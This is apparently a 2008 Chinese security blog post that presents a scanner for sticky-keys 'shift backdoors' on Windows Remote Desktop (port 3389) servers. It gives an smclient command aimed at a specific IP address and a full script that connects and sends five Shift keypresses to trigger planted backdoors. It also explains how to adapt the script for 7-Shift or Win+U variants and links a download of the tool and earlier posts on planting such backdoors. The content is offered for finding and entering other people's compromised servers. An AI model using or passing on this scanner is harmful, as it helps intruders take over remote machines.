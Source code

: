 ```yaml
---
title: 3389的SHIFT后门自动扫描工具
description: 以前夜火我介绍过不少shift相关的后门文章了：XP、2003开3389+非net创建管理用户+Shift后门+自删除脚本vbs2000/xp/vista下5次shift的粘滞键利用shift后门加密版制作及不死3389帐号建立今天来看看cloie的3389的SHIFT后门自动扫描工具：首先3389的SHIFT后门极少，其次大部分SHIFT后门都加密所以手工一个一个尝试是挺傻的，写成自动扫描的话，还能让人忍受
date: 2008-09-16 08:23:16
category: 安全工具
tags: ['3389', '后门', 'Scanner']
post_id: 606
alias: 3389-shift-backdoor-Scan
ViewNums: 4336
---
```


以前[夜火](/blog/)我介绍过不少shift相关的后门文章了：

* [XP、2003开3389+非net创建管理用户+Shift后门+自删除脚本vbs](/blog/xp-2003-open3389-shiftbackdoor-vbs)
* [2000/xp/vista下5次shift的粘滞键利用](/blog/5shift-sethc)
* [shift后门加密版制作及不死3389帐号建立](/blog/5-shift-backdoor-3389)

今天来看看cloie的[3389的SHIFT后门自动扫描工具](/blog/3389-shift-backdoor-scan)：

首先[3389](/tags/3389)的SHIFT[后门](/tags/%E5%90%8E%E9%97%A8)极少，其次大部分SHIFT后门都加密

所以手工一个一个尝试是挺傻的，写成自动扫描的话，还能让人忍受

smclient -f:shift_backdoor.txt -s:125.91.15.254 -l:1 -v -d

shift_backdoor.txt：
job
{
connect("","","",1,1);
sleep(2000);
senddata("WM_KEYDOWN",16,2752513);
senddata("WM_KEYUP",16,3223977985);
senddata("WM_KEYDOWN",16,2752513);
senddata("WM_KEYUP",16,3223977985);
senddata("WM_KEYDOWN",16,2752513);
senddata("WM_KEYUP",16,3223977985);
senddata("WM_KEYDOWN",16,2752513);
senddata("WM_KEYUP",16,3223977985);
senddata("WM_KEYDOWN",16,2752513);
senddata("WM_KEYUP",16,3223977985);
sleep(2000);
disconnect();
}

有些SHIFT后门被改成了按7次SHIFT，或者是WIN+U后门，改改shift_backdoor.txt把功能加进去即可

[3389的SHIFT后门自动扫描工具 下载地址](/blog/download.asp?id=151

From:[cloie](http://hi.baidu.com/cloie)

